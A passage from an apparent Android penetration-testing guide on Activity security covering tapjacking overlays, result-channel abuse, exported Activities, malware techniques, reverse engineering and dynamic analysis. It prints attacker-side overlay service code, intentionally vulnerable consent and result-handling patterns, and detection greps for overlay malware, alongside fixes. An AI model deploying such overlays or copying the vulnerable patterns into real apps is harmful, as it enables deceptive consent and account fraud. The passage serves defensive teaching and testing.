| Consent screen with no `filterTouchesWhenObscured`, where the button transfers money | **Medium** | Requires `SYSTEM_ALERT_WINDOW`, which requires a Settings toggle the user must perform. Real, cheap to fix, and genuinely exploited in the wild by banking trojans. |
| Mixed-package task reachable by any app, victim screen shows account data | **Medium** | No special permission needed, works on modern devices, but the consequence is deception rather than direct data access. |

#### Three things that cap severity, and one that raises it

**Caps.** (1) A malicious app must be installed — for families 2 and 4. (2) The user must be deceived
— a task placement is not a compromise until somebody is fooled by it. (3) The grant from a
confused deputy is often short-lived (measured above), so the attacker gets one read rather than
persistent access, unless persistable grants are in play.

**Raises.** The deputy family has **no installation precondition beyond "the attacker has an app on
the device"** *and*, if the deputy is reachable from a browsable deep link, no installation
precondition at all. A web-reachable deputy is a genuinely different severity from a locally
reachable one, and §3.11 is where you check which you have.

> **Pentester's Note**
> Write the precondition into the finding title, not the appendix. *"Exported Activity launders URI
> grants on a non-exported provider (any installed app)"* and *"Launcher Activity lacks
> `taskAffinity=\"\"` (requires malicious app; mitigated on tested devices)"* are two titles a triager
> can act on without reading further, and they are the difference between being trusted and being
> filtered.

### 5.5 Tapjacking and overlay attacks

The mechanism, the flags and the defence are in §3.9. This section is the attacker's side, the
detection, and the honest limits of what this chapter was able to execute.

#### The vulnerable code

```java
// examples/victim-app/ConsentActivity.java — the vulnerability is an ABSENCE
Button grant = new Button(this);
grant.setText("GRANT FULL ACCOUNT ACCESS");
grant.setOnClickListener(v -> doTheConsequentialThing());
root.addView(grant);
// root.setFilterTouchesWhenObscured(true);   <- the missing line
```

There is no bad call to point at. The finding is that a defensive call was never made, which is why
this class survives code review so reliably: reviewers look for wrong lines, and this is a missing
one.

#### The attacker's side

Three pieces, and each is a recognisable pattern when reading a suspect APK:

```xml
<!-- 1. the permission. "special": declaring it is NOT enough. -->
<uses-permission android:name="android.permission.SYSTEM_ALERT_WINDOW"/>
<!-- 2. a Service to hold the window, because an Activity's window dies when the
        victim comes forward -->
<service android:name=".OverlayService"/>
<!-- 3. a trivial launcher Activity whose only job is to be in the foreground
        long enough to make the service start legal (API 26+ background limits) -->
<activity android:name=".TapjackActivity" android:exported="true"/>
```

```java
// examples/hijacker-app/OverlayService.java — the two flags that make it an attack
int type = Build.VERSION.SDK_INT >= Build.VERSION_CODES.O
        ? WindowManager.LayoutParams.TYPE_APPLICATION_OVERLAY     // 2038
        : WindowManager.LayoutParams.TYPE_PHONE;                  // pre-8.0 only

WindowManager.LayoutParams lp = new WindowManager.LayoutParams(
        MATCH_PARENT, WRAP_CONTENT, type,
        WindowManager.LayoutParams.FLAG_NOT_TOUCHABLE      // touches pass THROUGH
      | WindowManager.LayoutParams.FLAG_NOT_FOCUSABLE,     // victim behaves normally
        PixelFormat.TRANSLUCENT);
wm.addView(overlayView, lp);
```

> **Pentester's Note — how to recognise an overlay sample**
> Look at **Services**, not Activities, and grep for `addView` with a
> `WindowManager.LayoutParams`. Then check the type constant and the flags. An overlay service is
> almost never exported, and it is almost always accompanied by a trivial launcher Activity that
> exists only to satisfy the background-start restriction. Do not mistake that launcher for the
> payload. (The lab's `OverlayService` *is* exported, purely so `am startservice` can drive it; the
> manifest comment says so explicitly, because a lab affordance that teaches a wrong recognition
> pattern is worse than no lab.)

#### Detection — statically

```bash
# host — the app under test: does the sensitive screen defend itself?
grep -rn "setFilterTouchesWhenObscured\|filterTouchesWhenObscured" src/ res/
grep -rn "FLAG_SECURE" src/

# host — from an APK, in smali (obfuscation-proof: framework names are never renamed)
grep -rn "setFilterTouchesWhenObscured" work/smali*/
grep -rn "Landroid/view/MotionEvent;->getFlags" work/smali*/

# host — a suspect app: is it an overlay sample?
grep -rn "TYPE_APPLICATION_OVERLAY\|2038\|FLAG_NOT_TOUCHABLE" work/smali*/
aapt2 dump permissions suspect.apk | grep SYSTEM_ALERT_WINDOW
```

#### Detection — dynamically

```bash
# host — who currently holds the overlay permission on this device?
adb shell "cmd appops query-op SYSTEM_ALERT_WINDOW allow"

# host — which windows exist right now, and who owns them?
adb shell "dumpsys window windows" | grep -E "Window\{|mOwnerUid"
```

Measured on the lab device, the first command returned twenty-odd packages — almost all of them
MIUI system components, plus `com.miui.calculator`. That is the normal state of an OEM device and it
is worth seeing once, because it kills the instinct to treat "an app holds `SYSTEM_ALERT_WINDOW`" as
a finding on its own.

The runtime detector that actually answers the question is in `scripts/activity-trace.js`, which
hooks `Activity.dispatchTouchEvent` and reports every event carrying `FLAG_WINDOW_IS_OBSCURED`
together with whether the decor view was filtering:

```javascript
// scripts/activity-trace.js — the essential check
if (f & FLAG_WINDOW_IS_OBSCURED) {
    var filtered = this.getWindow().getDecorView().getFilterTouchesWhenObscured();
    // filtered === false  ->  the platform warned, the app accepted anyway
}
```

#### What this chapter could NOT execute, and why

> **Warning — an honest gap**
> **The end-to-end tapjacking demonstration was not performed on the test device.** The overlay was
> never raised, so no obscured touch was ever delivered and no "the victim accepted it" measurement
> exists in this chapter.
>
> The cause, diagnosed rather than guessed: the device was **locked** throughout
> (`dumpsys trust` reported `deviceLocked=1`), and on a locked device an app never reaches a
> foreground process state. Every attempt to start the overlay Service was refused with:
>
> ```text
> IllegalStateException: Not allowed to start service Intent { ... }:
>     app is in background uid UidRecord{... u0a312 TPSL idle procs:1 ...}
> ```
>
> `TPSL` is `PROCESS_STATE_TOP_SLEEPING` — the Activity really was top, and the platform still
> counted it as background because the display was not interactive. Driving the start through root
> made no difference, because the check is made against the **target app's** uid state, not the
> caller's. Unlocking the device requires the owner's credential, and disabling the lock screen is
> not something this work will do to somebody's phone.
>
> What *was* established on the device: the `SYSTEM_ALERT_WINDOW` appop can be granted with
> `appops set <pkg> SYSTEM_ALERT_WINDOW allow` under root and reads back as `allow`; and that grant
> is **reset to `ignore` by every reinstall**, which is a real trap when iterating on a lab.
>
> `labs/lab-04-tapjacking-consent.md` is written to be run on an **unlocked** device and states this
> precondition in its first line. Everything else in this chapter that is labelled `measured` was
> measured; this one is labelled documented, and §7.9 lists it there.

#### The fix

```java
// In the Activity, on the root of the sensitive screen AND on each consequential control.
root.setFilterTouchesWhenObscured(true);
grantButton.setFilterTouchesWhenObscured(true);
```

```xml
<!-- Or declaratively, per view, which survives refactoring better -->
<Button
    android:id="@+id/grant"
    android:filterTouchesWhenObscured="true"
    ... />
```

And, on any screen that displays a secret rather than merely accepting a decision:

```java
getWindow().setFlags(WindowManager.LayoutParams.FLAG_SECURE,
                     WindowManager.LayoutParams.FLAG_SECURE);
```

### 5.6 Result-channel abuse

The mechanism is §3.10. The finding shapes:

| Shape | The bug | Evidence to gather |
|---|---|---|
| **Unvalidated result** | `onActivityResult` reads an extra from `data` and trusts it (an email address, a "verified" boolean, a price) | Show that the app whose Activity returned the result can be chosen by the attacker — usually because the outbound Intent was implicit |
| **Result to the wrong app** | The outbound Intent was implicit, so resolution decides who answers | `cmd package query-activities` for the outbound Intent; more than one candidate is the finding |
| **Grant on the way home** | `setResult` with `FLAG_GRANT_READ_URI_PERMISSION` and a `content://` URI | Read the flags on the result Intent — `scripts/activity-trace.js` decodes them |
| **`FLAG_ACTIVITY_FORWARD_RESULT` through a deputy** | The deputy forwards the attacker's flag, so the result skips the deputy entirely and lands on the attacker | The flag in the forwarded Intent; `0x2000000` |

```java
// The vulnerable pattern, which is extremely common
@Override protected void onActivityResult(int req, int res, Intent data) {
    if (req == RC_PICK_ACCOUNT && res == RESULT_OK) {
        String email = data.getStringExtra("account_email");   // attacker-authored
        loginAs(email);                                        // ...and acted upon
    }
}
```

```java
// The fix has two halves and both are needed.
// 1. Make the outbound Intent EXPLICIT, so you know who is answering.
Intent i = new Intent();
i.setComponent(new ComponentName("com.trusted.accounts", "com.trusted.accounts.PickerActivity"));
// ...and pin the signature of that package before you trust it at all.
startActivityForResult(i, RC_PICK_ACCOUNT);

// 2. Validate the result exactly as you would validate an inbound Intent.
@Override protected void onActivityResult(int req, int res, Intent data) {
    if (req != RC_PICK_ACCOUNT || res != RESULT_OK || data == null) return;
    String email = data.getStringExtra("account_email");
    if (email == null || !EMAIL_PATTERN.matcher(email).matches()) return;
    // and: does a returned value ever authorise anything? If so, re-derive it
    // server-side rather than believing the client.
}
```

> **Mental Model**
> `onActivityResult` is an **inbound IPC entry point wearing a callback's clothes.** It looks like a
> return value from a function you called, which is why developers validate it like one — that is,
> not at all. It is not a return value. It is a message from another process that you invited but do
> not control.

### 5.7 Over-exposed Activities

The manifest attributes and their audit are [32-Manifest §3.6](../32-Manifest/README.md)'s. The
runtime consequences worth knowing:

| Attribute | Runtime consequence | How to confirm |
|---|---|---|
| `android:exported="true"` with no `permission` | Any app may start it with an attacker-chosen Intent | `cmd package query-activities` and an attacker app, not `am` |
| `android:permission` at `protectionLevel="normal"` | Any app can obtain it by declaring it. The control is worthless | `adb shell pm list permissions -f -d` and read the level |
| `android:showWhenLocked="true"` | The screen appears **over the lock screen**. Combined with `exported`, any app can put a chosen screen on a locked phone | Lock the device and start it |
| `android:turnScreenOn="true"` | Wakes the display for it | As above |
| `android:allowEmbedded="true"` | May be launched as an embedded child of another Activity | Rare; investigate every occurrence |
| `android:excludeFromRecents="false"` on a secret-bearing screen | A task snapshot is written; `FLAG_SECURE` is the real control | Take a screenshot, then look at Recents |
| `android:launchMode="singleTask"` on a deep-linked screen | `onNewIntent` is reachable, so the §3.1 `getIntent()` trap applies | Send two deep links and watch `activity-trace.js` |

### 5.8 OWASP MASVS / MASTG mapping

| Control | How this chapter's material maps |
|---|---|
| **MASVS-PLATFORM-1** — the app uses IPC mechanisms securely | Exported Activities, the confused deputy (§5.3), grant laundering, result-channel abuse (§5.6). Starting an Activity *is* IPC (§2.2). |
| **MASVS-PLATFORM-3** — the app uses the user interface securely | **This chapter's headline control.** Task hijacking (§5.2), mixed-package tasks (§3.8), tapjacking (§5.5), `FLAG_SECURE` and Recents snapshots (§3.9). [71-OWASP-Mobile](../71-OWASP-Mobile/README.md) maps the overlay half of this to MASVS-PLATFORM-3 explicitly. |
| **MASVS-PLATFORM-2** — WebViews | Where deep-link data usually terminates. A deep-linked Activity that hands its URI to a WebView is chapter 43's finding reached through this chapter's entry point. |
| **MASVS-STORAGE-2** — no sensitive data in logs / backups | `onSaveInstanceState` and task persistence write Activity state to disk (§3.1). |
| **MASVS-AUTH-2** — session handling | Login and consent screens are Activities; every reachability finding above lands on them first. |
| **MASTG-TEST** — testing deep links, testing for overlay attacks, testing task hijacking | The labs in §12 are written to satisfy these procedures with evidence rather than assertion. |

### 5.9 How malware uses Activities

| Technique | What it looks like |
|---|---|
| **Overlay phishing** | A Service holding a `TYPE_APPLICATION_OVERLAY` window that renders a fake login for a hard-coded list of banking packages, triggered by polling the foreground app. The overlay is usually *not* `FLAG_NOT_TOUCHABLE` in this variant — it takes the input itself rather than passing it through. |
| **Tapjacking for permission grants** | A `FLAG_NOT_TOUCHABLE` overlay above a *system* permission dialog, to get a consent tap the user did not intend. This is precisely why `TYPE_APPLICATION_OVERLAY` is drawn below critical system UI on modern versions. |
| **Task hijacking** | The two-attribute manifest of §5.2, on devices old enough for it to work. |
| **`excludeFromRecents` + no launcher icon** | The app has no icon and its task never appears in Recents, so the user has nothing to tap to investigate it. |
| **`showWhenLocked` + `turnScreenOn`** | Ransomware lock screens: an Activity that appears over the keyguard and refuses to be dismissed. |
| **Accessibility-driven UI automation** | Not an overlay at all — the malware *is* the user. `filterTouchesWhenObscured` does nothing here, which is why §3.9 lists it as a limit. |

### 5.10 How a forensic analyst uses Activities

The task graph is a **record of what the user did**, held by `system_server`, and it survives the
processes involved. Three fields are worth knowing by name:

| Source | What it tells you |
|---|---|
| `dumpsys activity activities` → `launchedFromUid` / `launchedFromPackage` | **Who started this screen.** The single best attribution field on the device, and the app being investigated cannot see or forge it. |
| `dumpsys activity recents` → `affinity`, `realActivity`, `baseIntent` | Tasks that still exist even though their processes are dead — including the exact Intent that created them, which frequently carries a deep-link URI. |
| Task snapshot files written by the system for Recents | Images of what was on screen. `FLAG_SECURE` is what prevents them; its absence on a secret-bearing screen is both a finding and a forensic opportunity. |

```bash
# host — the attribution sweep
adb shell "dumpsys activity activities" | grep -E "launchedFrom|realActivity|Hist #"
adb shell "dumpsys activity recents"    | grep -E "baseIntent|realActivity|affinity"
```

---

## 6. Reverse Engineering Perspective

### 6.1 What an Activity looks like in JADX output

An Activity is the easiest component type to recognise, because its shape is dictated by the
framework:

```java
// jadx output, lightly tidied
public class p000a extends Activity {        // R8 renamed the class; the SUPERCLASS survives
    @Override // android.app.Activity
    protected void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        Intent intent = getIntent();
        String stringExtra = intent.getStringExtra("a");
        ...
    }
}
```

Two properties make Activities obfuscation-resistant, and they are worth stating because they change
how you triage:

1. **`extends Activity` (or `AppCompatActivity`, `FragmentActivity`, `ComponentActivity`) cannot be
   renamed.** The superclass is a framework class, and R8 cannot rename framework symbols. Every
   Activity in the APK is findable by superclass regardless of obfuscation.
2. **Every Activity must be named in the manifest.** `android:name` has to resolve to a real class,
   so the manifest is a complete, authoritative index of every Activity — under whatever names
   obfuscation left them. `getParcelableExtra`, `startActivity`, `setResult`, `onNewIntent` and
   `onActivityResult` are all framework methods and survive for the same reason.

The practical consequence: **you never have to guess which classes are Activities.** Start from the
manifest, map each `android:name` to a class, and you have a complete component inventory before
reading a line of logic.

### 6.2 The manifest, as the thing you read first

```bash
# host — the fastest complete view of the Activity surface
apktool d -f -o work target.apk
grep -nE '<activity|<activity-alias|android:name=|android:exported=|android:launchMode=|android:taskAffinity=|android:permission=' \
     work/AndroidManifest.xml

# host — without apktool, straight from the binary XML
aapt2 dump xmltree --file AndroidManifest.xml target.apk | less
```

The five attributes worth extracting into a table before you do anything else:

| Attribute | Why it is first-pass material |
|---|---|
| `android:name` | the class to open in jadx |
| `android:exported` | whether any of this is reachable at all |
| `android:permission` | and if so, at what cost — resolve the `protectionLevel` |
| `android:launchMode` | whether `onNewIntent` is reachable (§3.1's trap) |
| `android:taskAffinity` | present at all is unusual; naming another package is a red flag |

> **Pentester's Note**
> `<activity-alias>` is the entry point people forget. It is a second, independently configured door
> to an existing Activity, and its `exported` and `permission` attributes are its **own** — they do
> not inherit from the target. An Activity that is correctly `exported="false"` can have an alias
> that is `exported="true"`. Grep for `activity-alias` explicitly;
> [32-Manifest §3.6](../32-Manifest/README.md) covers the full audit.

### 6.3 The Smali signature of a deputy

The redirection primitive's Smali shape is [26-Intent §6.2](../26-Intent/README.md)'s, and its
detector lives in `26-Intent/scripts/intent-surface-map.py --redirect`. What is worth adding here is
the *Activity-specific* recognition: the same three instructions, but inside `onCreate`, which is
what makes it a deputy rather than merely a redirect.

```smali
# work/smali/com/pentest/ch30/victim/DeputyActivity.smali
.method protected onCreate(Landroid/os/Bundle;)V
    .locals 3

    invoke-super {p0, p1}, Landroid/app/Activity;->onCreate(Landroid/os/Bundle;)V

    invoke-virtual {p0}, Lcom/pentest/ch30/victim/DeputyActivity;->getIntent()Landroid/content/Intent;
    move-result-object v0

    const-string v1, "next"

    # (1) pull a Parcelable out of an extra -- returns Landroid/os/Parcelable;
    invoke-virtual {v0, v1}, Landroid/content/Intent;->getParcelableExtra(Ljava/lang/String;)Landroid/os/Parcelable;
    move-result-object v2

    # (2) THE SIGNATURE. Because getParcelableExtra is DECLARED to return
    #     Parcelable, any code that wants an Intent MUST emit this cast.
    #     Framework descriptors cannot be renamed by R8, so this survives
    #     obfuscation completely.
    check-cast v2, Landroid/content/Intent;

    if-eqz v2, :cond_0

    # (3) ...and start it, with THIS app's identity.
    invoke-virtual {p0, v2}, Lcom/pentest/ch30/victim/DeputyActivity;->startActivity(Landroid/content/Intent;)V

    :cond_0
    invoke-virtual {p0}, Lcom/pentest/ch30/victim/DeputyActivity;->finish()V
    return-void
.end method
```

The three-instruction window `getParcelableExtra` → `check-cast Landroid/content/Intent;` →
`startActivity` is the whole detector, and it is why a Smali grep beats a source grep on an
obfuscated APK:

```bash
# host — obfuscation-proof, because every symbol in the pattern is a framework symbol
grep -rn --include='*.smali' -A6 \
  'Landroid/content/Intent;->getParcelableExtra' work/smali* \
  | grep -B1 -A5 'check-cast .*Landroid/content/Intent;'

# host — the Activity-specific narrowing: the pattern INSIDE onCreate or onNewIntent
grep -rln --include='*.smali' 'check-cast .*Landroid/content/Intent;' work/smali* \
  | xargs grep -l 'Landroid/app/Activity;->onCreate'
```

### 6.4 Recognising launch modes and affinities in a compiled app

Launch mode and affinity never appear in code — they are manifest-only, resolved by the platform.
That is a useful asymmetry: **you cannot obfuscate them.** They are in plain text (or plain binary
XML) in every APK, and they are also visible at runtime in `dumpsys`, so you have two independent
sources that must agree.

```bash
# host — from the APK
aapt2 dump xmltree --file AndroidManifest.xml target.apk \
  | grep -E 'launchMode|taskAffinity|allowTaskReparenting|E: activity'

# host — from the device, for the SAME app, after launching it
adb shell "dumpsys activity activities" | grep -E "taskAffinity=|launchMode="
```

Disagreement between the two is exactly the uid-prefix transformation of §3.7 — and confirming that
you can see both is the fastest way to convince yourself the mitigation is real.

### 6.5 What obfuscation does and does not do

| Construct | Survives obfuscation? | Why |
|---|---|---|
| `extends Activity` | **yes** | framework superclass |
| `onCreate` / `onNewIntent` / `onActivityResult` | **yes** | framework overrides; renaming them would break dispatch |
| `startActivity` / `setResult` / `getParcelableExtra` | **yes** | framework methods |
| `Landroid/content/Intent;` descriptors in Smali | **yes** | framework types |
| The Activity's own class name | no — renamed | but the manifest maps it for you |
| Extra key strings (`"next"`, `"dest"`) | **usually yes** | they are protocol, so they must match what callers send. String encryption can hide them; if the app is deep-linkable, the keys are usually still plaintext because a URL has to produce them |
| The manifest itself | **never** | the platform must parse it |

> **Mental Model**
> Obfuscation hides the *app's* names. It cannot hide the *platform's* names, and every interesting
> thing in this chapter is expressed in platform names. That is why an Activity/task audit is one of
> the few analyses that is barely affected by R8 — and it is a good argument for doing this audit
> early on a heavily obfuscated target, before spending days on renamed logic.

### 6.6 Finding it when the code is genuinely unreadable

Sometimes the DEX is packed, encrypted or loaded at runtime and static analysis gives you nothing.
The platform's own records do not care:

```bash
# host — every filter the platform recorded, whatever the code looks like
adb shell "dumpsys package com.example.target" | sed -n '/Activity Resolver Table/,/Receiver Resolver Table/p'

# host — the live task view (this chapter's tool)
python3 -B scripts/task-affinity-map.py --package com.example.target --recents

# host — every Activity the package manager knows about, exported or not
adb shell "cmd package query-activities --brief -a android.intent.action.MAIN com.example.target"
```

---

## 7. Dynamic Analysis

### 7.1 The reconnaissance sequence

Run these five in order on any target. Each answers one question and the order is not arbitrary —
each step narrows what the next one has to look at.

```bash
# host — 1. What Activities exist, and which are exported?
#          (32-Manifest owns the deep audit; this is the fast index)
adb shell "dumpsys package com.example.target" | sed -n '/Activity Resolver Table/,/Receiver/p'

# host — 2. What does the LIVE task graph look like, and is hijacking mitigated here?
python3 -B scripts/task-affinity-map.py --package com.example.target --recents

# host — 3. Which components would receive a given implicit Intent?
#          (26-Intent owns resolution; its tool is the right one)
python3 -B ../26-Intent/scripts/intent-surface-map.py \
    --action android.intent.action.VIEW \
    --category android.intent.category.BROWSABLE \
    --data 'https://app.example.com/open/1'

# host — 4. Watch the platform's decisions while you probe
adb logcat -c && adb logcat | grep -E "ActivityTaskManager|ActivityManager|Permission Denial"

# host — 5. Watch the app's side: placement, identity, results, obscured touches
frida -U -f com.example.target -l scripts/activity-trace.js
```

### 7.2 Reading `dumpsys activity activities`

The dump is long and mostly irrelevant. These are the lines that matter, in the order you want them:

```bash
# host — the task skeleton: ids, affinities, sizes
adb shell "dumpsys activity activities" | grep -E "^\s+\* Task\{"

# host — the stacks: which Activity is in which task, bottom-up
adb shell "dumpsys activity activities" | grep -E "Hist #"

# host — the affinity strings alone (the mitigation check, by eye)
adb shell "dumpsys activity activities" | grep -E "taskAffinity=|affinity=" | sort -u

# host — attribution: who started each Activity
adb shell "dumpsys activity activities" | grep -E "launchedFromUid|launchedFromPackage"

# host — what is on screen right now
adb shell "dumpsys activity activities" | grep -E "ResumedActivity|mResumedActivity"

# host — tasks that outlived their processes
adb shell "dumpsys activity recents" | grep -E "Recent #|affinity=|realActivity="
```

> **Pentester's Note**
> The dump prints the whole graph **twice** — once per display, then again in a summary block. Every
> naive `grep | wc -l` over it double-counts, and every naive parser produces duplicate tasks.
> `scripts/task-affinity-map.py` keys tasks by id specifically to collapse this, and the fact that it
> has to is worth knowing before you write your own one-liner.

### 7.3 `am start` — and its three limitations

```bash
# host — explicit component (bypasses all filter matching; needs the component exported)
adb shell "am start -n com.example.target/.SomeActivity"

# host — implicit, exactly as a browser would send it
adb shell "am start -a android.intent.action.VIEW \
    -c android.intent.category.BROWSABLE -d 'https://app.example.com/x'"

# host — extras of every type am supports
adb shell "am start -n com.example.target/.A --es key value --ei num 42 --ez flag true \
    --eu uri 'content://x/y'"

# host — task flags, by name
adb shell "am start -n com.example.target/.A -f 0x10000000"          # NEW_TASK
adb shell "am start --activity-clear-top -n com.example.target/.A"
adb shell "am start --activity-single-top -n com.example.target/.A"  # forces onNewIntent

# host — start and wait, printing the resolved component and the task it landed in
adb shell "am start -W -n com.example.target/.A"
```

The three limitations, all measured, all worth internalising:

| Limitation | Consequence | Escape |
|---|---|---|
| `am` runs in the shell process, which has no task, so `FLAG_ACTIVITY_NEW_TASK` is always implied | You can never observe the "joins the caller's task" case from the shell — which is §3.8, the *live* attack on modern devices | Write a real Activity: `examples/hijacker-app/CrossStartActivity.java` |
| `am` has no `--eparcelable` | The Parcelable flavour of intent redirection is **invisible** to shell probing. "am could not trigger it" is not evidence a deputy is safe | `examples/hijacker-app/DeputyExploitActivity.java` — twelve lines |
| `am` runs as uid 2000 (`shell`), which holds permissions no third-party app holds | A component you reach here may be unreachable from a real app | Repeat from an unprivileged app before reporting |

### 7.4 Frida — `scripts/activity-trace.js`

```bash
# host — spawn (catches the very first Activity)
frida -U -f com.example.target -l scripts/activity-trace.js

# host — attach to something already running
frida -U -n com.example.target -l scripts/activity-trace.js

# from the REPL
rpc.exports.tasks()       # one line per live Activity: task, root, instance
rpc.exports.quiet(true)   # security events only
rpc.exports.stats()
```

Real output from the lab app, which doubles as an independent confirmation of the `singleTop`
measurement in §3.4 — this time from *inside* the app process rather than from `dumpsys`:

```text
# measured — Redmi M2101K6P, Android 11 / API 30, frida 16.1.6
[!] ARRIVAL onCreate  com.pentest.ch30.victim.BetaActivity
    task: taskId=332  isTaskRoot=false  instance=167020598   (NEW INSTANCE ...)
    intent: action=null component=com.pentest.ch30.victim/.BetaActivity
      flags=0x10000000 [NEW_TASK]
    identity:
      [tier 2 system-stamped] getCallingActivity() = null
      [tier 2 system-stamped] getCallingPackage()  = null
      [tier 3 attacker-authored] getReferrer()     = android-app://com.android.shell
      [USELESS HERE] Binder.getCallingUid() = 10311   Process.myUid() = 10311   <-- IDENTICAL

[!] ARRIVAL onNewIntent  com.pentest.ch30.victim.BetaActivity
    ^ the system REUSED an existing instance.
    task: taskId=332  isTaskRoot=false  instance=167020598   (REUSED INSTANCE)
```

Same `instance=167020598` across an `onCreate` and a later `onNewIntent`: the object was reused.
That is `singleTop`, read off a running app, with no manifest and no source.

> **Mental Model — the two tools answer different questions**
> `dumpsys` tells you **where things ended up**. Frida tells you **what the app saw**. When they
> disagree — and the `getIntent()` trap of §3.1 is exactly a case where they can — the disagreement
> *is* the finding.

### 7.5 Package visibility — the trap that will waste your afternoon

From `targetSdk` 30 an app cannot see other packages unless it declares `<queries>` or holds
`QUERY_ALL_PACKAGES`. `adb shell` is not subject to this, so **your view is wider than your attacker
app's view**, and the failure mode is not the one you expect.

Measured while writing this chapter, and it cost real time:

```text
# The attacker app, WITHOUT <queries>, querying the victim's provider directly.
# EXPECTED: SecurityException.  ACTUAL:
I CH30 : EXPLOIT UNEXPECTED: direct query SUCCEEDED
```

`ContentResolver.query()` had returned a **null cursor**, not thrown. The authority did not resolve,
because the attacker could not see the victim package at all — so the code's "did it throw?" test
concluded the provider was reachable. Adding

```xml
<queries>
    <package android:name="com.pentest.ch30.victim"/>
</queries>
```

produced the correct control immediately:

```text
I CH30 : EXPLOIT control OK: direct query DENIED (Permission Denial: opening provider
         com.pentest.ch30.victim.SecretProvider from ... (uid=10312)
         that is not exported from UID 10311)
```

> **Warning**
> **A null cursor is not evidence of absence.** On API 30 and above it usually means package
> visibility, not a missing provider. The three outcomes are distinct and you must distinguish them:
> a `SecurityException` means *it exists and refused you*; a **null cursor** means *it did not
> resolve*; a row means *it was reachable all along and your control proved nothing*.
> `examples/hijacker-app/DeputyExploitActivity.java` prints all three by name for exactly this
> reason.

### 7.6 Reachability discipline

The rule that keeps findings from being closed as "won't fix":

| Claim | What is actually required |
|---|---|
| "The Activity is exported" | Nothing — that is a manifest fact, not a finding |
| "I started it with `am`" | Not reachability. `adb shell` is uid 2000 and privileged |
| "An app can start it" | **Write the app.** Twelve lines, and it converts a suspicion into a finding |
| "A web page can reach it" | Confirm `CATEGORY_BROWSABLE` on the filter *and* that the browser will hand it over — [26-Intent §3.11](../26-Intent/README.md) |
| "The task was hijacked" | A screenshot. A task id is not a deception |
| "The touch was obscured" | Whose window? `dumpsys window windows`. A system overlay sets the same flag |

### 7.7 Other tools

| Tool | What it is good for here | What it will not do |
|---|---|---|
| **Drozer** | `run app.activity.info`, `run app.activity.start` — fast enumeration and probing from an on-device agent, so uid is a real app's rather than shell's | Nothing about tasks or affinity |
| **MobSF** | Bulk manifest triage across many APKs | Cannot see a task; reports `taskAffinity` findings without knowing whether the platform mitigates them |
| **Objection** | `android hooking list activities`, `android intent launch_activity` | Same shell-uid caveat as `am` |
| **Android Studio's Layout Inspector** | Window and view hierarchy, which is what you want for the tapjacking half | Requires a debuggable build or a rooted device |
| **`uiautomator dump`** | View bounds, so you can compute where to inject a tap | Fails while the keyguard is up — measured |
| **`dumpsys window windows`** | Window z-order and owner uid: whose overlay is on top | Nothing about tasks |

### 7.8 Driving the labs on a device that refuses `adb install`

The device used for this chapter refuses `adb install` outright. This is worth documenting because it
is an OEM policy, not a fault in your APK, and the error message is misleading:

```text
# host — a correctly built, correctly signed, parseable APK
# measured — Redmi M2101K6P, MIUI 12.5
$ adb install probe.apk
adb: failed to install probe.apk: Failure [INSTALL_FAILED_USER_RESTRICTED: Install canceled by user]

# host — the same, driven from the device shell rather than the host
$ adb shell "pm install -r /data/local/tmp/probe.apk"
Failure [INSTALL_FAILED_USER_RESTRICTED: Install canceled by user]
```

"Install canceled by user" is not true — nobody cancelled anything. MIUI gates USB installs behind a
Developer-options toggle that itself requires a signed-in account. Neither
`settings put global verifier_verify_adb_installs 0` (which did take effect, and changed nothing) nor
`pm install -i com.android.shell` made any difference.

**What worked, on a device that is already rooted:**

```bash
# host — install through root, which is not subject to the vendor's shell gate
adb push app.apk /data/local/tmp/app.apk
adb shell "su -c 'pm install -r /data/local/tmp/app.apk'"
# -> Success
```

`examples/build.sh --install` tries `adb install` first, detects this exact failure, and falls back
to the root path automatically. Every measurement in this chapter that required an installed app was
obtained that way.

> **Warning**
> Rooting is not a workaround you get to assume in an engagement. If you meet
> `INSTALL_FAILED_USER_RESTRICTED` on a device you may not root, the correct answers are: enable the
> vendor toggle if you can, or use a different device. Do not report "untestable" — say which test
> you could not run and why, which is what §7.9 does below.

### 7.8a A second OEM behaviour that will waste your afternoon: `KeyguardLocked`

Halfway through the measurement session for this chapter the device locked itself, and every
subsequent experiment failed in a way that looked like a bug in the lab apps. It was not:

```text
# measured — Redmi M2101K6P, Android 11 / API 30, MIUI 12.5
D ActivityTaskManagerServiceInjector: MIUILOG- Permission Denied Activity KeyguardLocked:
    Intent { cmp=com.pentest.ch30.victim/.VaultActivity }
    pkg : com.pentest.ch30.victim uid : 10311
```

Read that carefully. The package starting the Activity and the package owning it are **the same**,
and it was still refused. While the keyguard is up, this OEM refuses every activity start that
**originates from an app** — including an app starting its own Activity.

Three properties make it particularly nasty to debug:

| Property | Consequence |
|---|---|
| The `MIUILOG-` prefix says this is a **vendor** policy, not AOSP | Nothing you read about `ActivityStarter` will explain it |
| `adb shell am start` still works | So half your commands succeed and half fail, and the pattern looks random |
| The refusal is logged at `D`, not thrown to the caller | The app sees nothing; only `logcat` without a tag filter shows it |

The same lock state independently breaks the overlay half of the chapter through a completely
different mechanism (§5.5): on a locked device an app is `PROCESS_STATE_TOP_SLEEPING` and counts as
background, so it may not start a Service.

**Unlock the device before any experiment that involves an app starting an Activity**, and check it
rather than assuming it:

```bash
# host
adb shell "dumpsys trust" | grep -o "deviceLocked=[01]"    # you want 0
adb shell "dumpsys window | grep mCurrentFocus"            # not a keyguard/shade window
```

Do not disable the lock screen to work around this. It is somebody's phone.

### 7.9 What was measured, and what was not

The distinction this repository insists on. Everything in the left column was executed on the
**Redmi M2101K6P, Android 11 / API 30, MIUI 12.5, patch 2021-12-01** and is reproduced above with its
raw output.

| Measured | Section |
|---|---|
| Every effective task affinity carries a `<uid>:` prefix; 17 of 17 strings | §3.7 |
| An empty declared affinity becomes `taskAffinity=null`, unprefixed | §3.3 |
| Classic `taskAffinity` + `singleTask` hijack **fails**; two separate tasks | §5.2 |
| `allowTaskReparenting` variant **fails** | §5.2 |
| Cross-app start without `FLAG_ACTIVITY_NEW_TASK` puts two packages in one task | §3.8 |
| The same start with `NEW_TASK` produces two tasks | §3.8 |
| `standard`: three starts, three distinct instances, one task | §3.4 |
| `singleTop`: reuse only at the top; two instances coexist otherwise | §3.4 |
| `singleTask`: reuses the instance, **stays in the same task**, destroys everything above it | §3.4 |
| `singleInstance`: own task, alone; later starts route elsewhere | §3.4 |
| `Binder.getCallingUid()` equals `Process.myUid()` in `onCreate` | §3.6 |
| `getCallingActivity()` is `null` for a plain `startActivity` | §3.6 |
